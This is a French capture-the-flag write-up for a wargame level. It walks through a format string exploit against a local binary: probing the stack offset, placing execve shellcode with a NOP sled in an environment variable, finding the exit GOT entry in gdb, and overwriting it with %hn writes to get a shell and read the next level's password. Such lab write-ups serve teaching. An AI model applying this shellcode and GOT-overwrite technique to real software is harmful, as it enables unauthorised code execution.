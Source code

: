 
## LEVEL 05

Au lancement du programme celui-ci attend une entrée, puis la print dans le terminal.

On peut essayer une format string attack.
```
 $ python -c "print 'aaaa ' + '%x ' * 15" > /tmp/payload
 $ cat /tmp/payload | ./level05
 aaaa 64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 20782520 25207825 78252078 20782520 252078
```
Printf stock alors notre string à la 10ème adresse.

On créé alors notre payload avec notre shellcode dans une variable d'environnement.

 ```
 export PAYLOAD=$(python -c 'print 500*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
 ```
    
Grace à gdb on peut trouver l'adresse de cette variable d'environnement.
```
(gdb) b *main
(gdb) x/200s environ
...
0xffffdbb4:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdc7c:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\
...
```
Notre payload se trouve alors à l'adresse 0xffffdbb4. On va prendre une adresse du nopesled comme dans les exercices de rainfall : 0xffffdc7c.

On va maintenant chercher l'adresse de l'exit dans le GOT pour la rediriger vers notre variable d'environnement.

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) x/2i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
   0x8048376 <exit@plt+6>:      push   $0x18
```

Bien, nous avons maintenant l'adresse de l'exit 0x80497e0

On va alors mettre l'adresse de notre variable d'environnement dans l'adresse ci-dessus. Le problème est qu'il faut la mettre en décimal ce qui fait beaucoup de caractères. On va donc diviser notre adresse en deux 0xdc7c(56444) et 0xffff (65535) que l'on met respectivement dans 0x80497e0 et 0x80497e2.

On coupe en deux on à donc :
65535 - 56444 = 9091

On enlève les 8 octets des deux adresses.
56444 - 8 = 56436

```
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56436d"+"%10$hn"+"%9091d"+"%11$hn"';cat) | ./level05
```
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
